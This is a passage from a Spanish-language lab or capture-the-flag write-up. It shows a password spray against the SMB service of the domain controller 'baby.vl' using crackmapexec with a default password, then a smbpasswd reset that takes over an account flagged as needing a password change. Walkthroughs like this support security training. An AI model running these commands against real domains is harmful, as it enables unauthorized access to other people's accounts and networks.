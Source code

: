 ```bash
➜  content cat users.txt
Ian.Walker
Leonard.Dyer
Hugh.George
Ashley.Webb
Jacqueline.Barnett
Teresa.Bell
Kerry.Wilson
Joseph.Hughes
Caroline.Robinson
Connor.Wilkinson
➜  content
```

- Ahora sí, procedemos a usar **crackmapexec**.

```bash
➜  content crackmapexec smb baby.vl -u users.txt -p 'BabyStart123!' --continue-on-success
SMB         baby.vl         445    BABYDC           [*] Windows 10.0 Build 20348 x64 (name:BABYDC) (domain:baby.vl) (signing:True) (SMBv1:False)
SMB         baby.vl         445    BABYDC           [-] baby.vl\Ian.Walker:BabyStart123! STATUS_LOGON_FAILURE
SMB         baby.vl         445    BABYDC           [-] baby.vl\Leonard.Dyer:BabyStart123! STATUS_LOGON_FAILURE
SMB         baby.vl         445    BABYDC           [-] baby.vl\Hugh.George:BabyStart123! STATUS_LOGON_FAILURE
SMB         baby.vl         445    BABYDC           [-] baby.vl\Ashley.Webb:BabyStart123! STATUS_LOGON_FAILURE
SMB         baby.vl         445    BABYDC           [-] baby.vl\Jacqueline.Barnett:BabyStart123! STATUS_LOGON_FAILURE
SMB         baby.vl         445    BABYDC           [-] baby.vl\Teresa.Bell:BabyStart123! STATUS_LOGON_FAILURE
SMB         baby.vl         445    BABYDC           [-] baby.vl\Kerry.Wilson:BabyStart123! STATUS_LOGON_FAILURE
SMB         baby.vl         445    BABYDC           [-] baby.vl\Joseph.Hughes:BabyStart123! STATUS_LOGON_FAILURE
SMB         baby.vl         445    BABYDC           [-] baby.vl\Caroline.Robinson:BabyStart123! STATUS_PASSWORD_MUST_CHANGE
SMB         baby.vl         445    BABYDC           [-] baby.vl\Connor.Wilkinson:BabyStart123! STATUS_LOGON_FAILURE
➜  content
```

## Shell as caroline Robinson

- Como pudimos ver, nos da un mensaje de **STATUS_PASSWORD_MUST_CHANGE** que significa que la contraseña ya fue cambiada, pero podemos cambiarla usando la herramienta `smbpasswd` <https://www.samba.org/samba/docs/current/man-html/smbpasswd.8.html>.

```bash
➜  content smbpasswd -r baby.vl -U caroline.robinson
Old SMB password:
New SMB password:
Retype new SMB password:
Password changed for user caroline.robinson
➜  content
```

